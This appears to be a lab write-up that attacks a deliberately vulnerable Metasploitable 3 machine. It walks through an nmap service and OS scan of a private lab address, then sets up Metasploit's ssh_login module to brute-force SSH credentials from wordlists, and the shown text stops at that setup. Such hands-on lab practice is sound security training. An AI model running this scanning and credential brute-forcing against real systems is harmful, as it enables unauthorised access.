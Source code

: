 Hint:

[Metasploitable 3 Vulnerabilities](https://github.com/rapid7/metasploitable3/wiki/Vulnerabilities)

### Solution:

Firstly, I installed nmap, metasploite framework:

```command
sudo apt-get install nmap
```

![alt text](image-36.png)

I did an nmap scan and tried to find the open ports using command:

```command
sudo nmap -sV -O 192.168.56.3 -p0-65535
```

![alt text](image-37.png)

We found that several open ports can be exploited, and I will choose port 22 ssh and 80 http

Start Metasploit with msfconsole using command:

```command
msfconsole
```

### SSH_login

![alt text](image-38.png)

Search for the SSH_login credential to exploit it using command:

```command
search ssh_login
```

![alt text](image-41.png)

![alt text](image-42.png)

Now we have to set all these parameters, to do this simply give the commands listed below one by one.

use it using command:

```command
show options
set RHOST 192.168.56.3
set VERBOSE true
set STOP_ON_SUCCESS true
set USER_FILE /usr/share/users.txt
set PASS_FILE /usr/share/pass.txt
show options

```
